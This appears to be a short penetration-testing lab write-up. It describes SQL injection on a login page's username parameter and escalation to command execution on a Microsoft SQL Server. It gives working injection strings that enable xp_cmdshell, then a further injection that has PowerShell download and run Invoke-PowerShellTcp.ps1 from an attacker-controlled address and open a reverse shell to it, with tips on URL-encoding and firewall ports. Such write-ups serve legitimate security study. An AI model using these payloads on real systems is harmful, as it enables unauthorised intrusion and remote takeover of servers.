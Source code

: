 - Navigate to the login page and capture the login request using burpsuite. Both `error`-based and `time`-based SQL injection will identify SQLi at `24UsernameTextBox`parameter. For the sake of demonstration, `error`-based SQL injection `1' 1234 -- //` is used here.![[Pasted image 20240125015149.png]]
- Upon identifying the SQLi, enable `xp_cmdshell` with another one-liner SQL injection .
	```
	1'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')waitfor delay '0:0:5' -- //
	```
	- Remember to URL-encode!
- After successful enable of `xp_cmdshell`, set up web server and retrieve and execute `Invoke-PowerShellTcp.ps1` with another SQL injection.
	```
	1'EXEC master.dbo.xp_cmdshell 'powershell.exe -c iex(iwr http://192.168.45.203:80/Windows/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.203 -Port 443'waitfor delay '0:0:5' -- //
	```
	- Remember to URL-encode
	- Port 4444 does not work here. Blocked by firewall possibly.